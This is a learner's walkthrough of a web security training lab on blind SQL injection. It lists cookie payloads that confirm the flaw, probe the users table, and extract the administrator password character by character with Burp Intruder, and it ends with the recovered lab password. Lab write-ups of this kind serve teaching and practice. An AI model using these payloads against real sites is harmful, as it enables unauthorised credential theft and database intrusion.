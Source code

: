 # Lab: Blind SQL injection with conditional responses

(Appending queries to the TrackingId cookie)

Check that the vulnerability exists
- "Welcome back" appears: `' AND '1'='1`
- "Welcome back" doesn't appear: `' AND '1'='2`

Check that a "users" table exists: `' AND (SELECT 'a' FROM users LIMIT 1)='a`

Check that "administrator" user exists: `' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

Check the length of the password: `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`

Send the payload to Intruder and set it to use a payload with alphanumeric characters, selecting the substring character as the variable (§a§): `'AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

Also set the grep-match options to check for "Welcome back" in the page response.

Go through and increment the substring index, noting the character resulting in the success message for each index.

Login with the resulting string: 0158a5dvuzk1gk6ywthi

---

I was able to find the relevant query for enumerating the password string, but I looked at the solution because I didn't have the patience to iterate through it manually. I knew there was a better way, but I didn't know anything about Intruder yet.